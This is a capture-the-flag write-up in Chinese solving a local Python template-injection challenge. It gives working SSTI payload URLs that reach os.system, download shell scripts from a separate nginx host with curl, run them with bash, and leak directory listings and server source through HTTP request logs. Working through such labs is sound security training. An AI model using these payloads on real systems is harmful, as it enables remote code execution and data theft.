


# python Vulnerable SSTI

## Description

SSTI 攻擊是指在應用程序中存在一個漏洞，攻擊者可以通過輸入特定的字符串來執行任意代碼。這種漏洞通常發生在模板引擎中，當用戶輸入的數據被直接插入到模板中並且沒有進行足夠的過濾或驗證時，攻擊者就可以利用這個漏洞來執行任意代碼。

## Solution

依照題目名稱 SSTI 就可以得到攻擊方法的暗示。

### 嘗試最簡單的 SSTI 攻擊

```
http://localhost:8000/?password={{3*3}}
```

得到 `password is wrong: 9` 代表 python 模板漏洞存在

### 嘗試去抓 python 內部變數

```
http://localhost:8000/?password={{().__class__.__bases__.__getitem__(0).__subclasses__()}}
```

可以看到一大堆 python 物件供使用，現在要想辦法找到 `os` 物件

利用 `node .\fuzzClass.mjs` 來 fuzz 找到 `os` 物件的 index 是 `127`

### 抓抓看 OS

```
http://localhost:8000/?password={{().__class__.__bases__.__getitem__(0).__subclasses__()[127].__init__.__globals__.__name__}}
```

得到 `password is wrong: os` 代表成功找到 `os` 物件

### 嘗試去執行命令

```
http://localhost:8000/?password={{().__class__.__bases__.__getitem__(0).__subclasses__()[127].__init__.__globals__[%22system%22](%22ls%22)}}
```

嘗試執行命令 `ls`，但沒有得到結果，因為模板不會回傳 stdout，而是會回傳 `password is wrong: 0`

裡面的 0 是 command 回傳值，而不是 stdout

### 因此要嘗試用 http 帶出結果

額外在 docker compose 中新增 nginx 服務，並且撰寫攻擊用 shell script

- find.sh: 可以查找目錄，拿來找到 flag 檔案
- get.sh: 讀取檔案，取得 flag 內容

### 找到可疑 flag 檔案

此時 find.sh 的搜索目標是 `a=$(ls / | paste -s -d' ' | sed 's/ /%20/g')` 根目錄，因為會使用 get request 帶出 string，所以要屏蔽特殊符號

讓遠端下載 script

```
http://localhost:8000/?password={{().__class__.__bases__.__getitem__(0).__subclasses__()[127].__init__.__globals__[%22system%22](%22curl%20http://nginx/find.sh%20%3E%20find.sh%22)}}
```

讓遠端執行 script

```
http://localhost:8000/?password={{().__class__.__bases__.__getitem__(0).__subclasses__()[127].__init__.__globals__[%22system%22](%22bash%20find.sh%22)}}
```

在 nginx 處看到根目錄結構:

```
172.18.0.3 - - [15/May/2025:17:07:40 +0000] "GET /find.sh HTTP/1.1" 200 65 "-" "curl/7.64.0" "-"
172.18.0.3 - - [15/May/2025:17:07:56 +0000] "GET /app%20bin%20boot%20dev%20etc%20find.sh%20home%20lib%20lib64%20media%20mnt%20opt%20proc%20root%20run%20sbin%20srv%20sys%20tmp%20usr%20var HTTP/1.1" 404 153 "-" "curl/7.64.0" "-"
172.18.0.3 - - [15/May/2025:17:12:32 +0000] "GET /find.sh HTTP/1.1" 200 68 "-" "curl/7.64.0" "-"
```

可以看到 `app` 目錄最特別，這是 python docker 常見的程式目錄。

因此修改 find.sh 脚本，將其內容修改為 `a=$(ls /app/ | paste -s -d' ' | sed 's/ /%20/g')` 找 python 主程式。

重複抓一次，用 find.sh 抓取 python 主程式名稱

```
http://localhost:8000/?password={{().__class__.__bases__.__getitem__(0).__subclasses__()[127].__init__.__globals__[%22system%22](%22curl%20http://nginx/find.sh%20%3E%20find.sh%22)}}
http://localhost:8000/?password={{().__class__.__bases__.__getitem__(0).__subclasses__()[127].__init__.__globals__[%22system%22](%22bash%20find.sh%22)}}
```

得到 `server.py` 主程式。

```
172.18.0.3 - - [15/May/2025:17:15:54 +0000] "GET /find.sh HTTP/1.1" 200 69 "-" "curl/7.64.0" "-"
172.18.0.3 - - [15/May/2025:17:15:59 +0000] "GET /Dockerfile%20docker-compose.yml%20entrypoint.sh%20server.py HTTP/1.1" 404 153 "-" "curl/7.64.0" "-"
172.18.0.3 - - [15/May/2025:17:17:20 +0000] "GET /get.sh HTTP/1.1" 200 44 "-" "curl/7.64.0" "-"
```

### 最後用 get 讀出主程式

這裡利用 base64 編碼，將 `server.py` 讀出。

下載 `get.sh`，並執行。

```
http://localhost:8000/?password={{().__class__.__bases__.__getitem__(0).__subclasses__()[127].__init__.__globals__[%22system%22](%22curl%20http://nginx/get.sh%20%3E%20get.sh%22)}}
```

```
http://localhost:8000/?password={{().__class__.__bases__.__getitem__(0).__subclasses__()[127].__init__.__globals__[%22system%22](%22bash%20get.sh%22)}}
```

得到主程式 base64 編碼



解碼後，得到 flag


